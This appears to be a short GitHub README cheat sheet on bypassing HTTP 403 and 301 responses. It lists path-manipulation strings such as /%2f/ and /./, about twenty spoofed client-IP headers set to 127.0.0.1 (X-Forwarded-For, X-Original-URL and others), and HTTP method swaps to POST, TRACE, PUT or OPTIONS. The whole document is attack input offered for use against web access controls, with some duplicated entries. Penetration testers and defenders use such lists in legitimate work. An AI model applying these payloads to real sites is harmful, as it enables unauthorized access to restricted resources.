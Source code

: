 # Bypass-forbidden
Bypassing Forbidden 403,301: Technique and Methodology

## URL Manipulation
Add this in paths of the URL and the file which is forbidden.
- /*-
- /%2f/
- /./
- /
- /*/
- {%2e}
- {%2f}
- { /*, /./}


## Headers Manipulation
Adding custom Headers in request.
Try to add Add this custom url
* X-Custom-IP-Authorization: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Forward-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Originating-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1
* X-Client-IP: 127.0.0.1
* X-Real-IP: 127.0.0.1
* X-Originating-IP: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Forwarded: 127.0.0.1
* Forwarded-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1
* X-ProxyUser-Ip: 127.0.0.1
* X-Original-URL: 127.0.0.1
* Client-IP: 127.0.0.1
* True-Client-IP: 127.0.0.1
* Cluster-Client-IP: 127.0.0.1
* X-ProxyUser-Ip: 127.0.0.1
* Host: localhost: 127.0.0.1


## Change requested method

GET → POST, GET → TRACE, GET → PUT, GET → OPTIONS
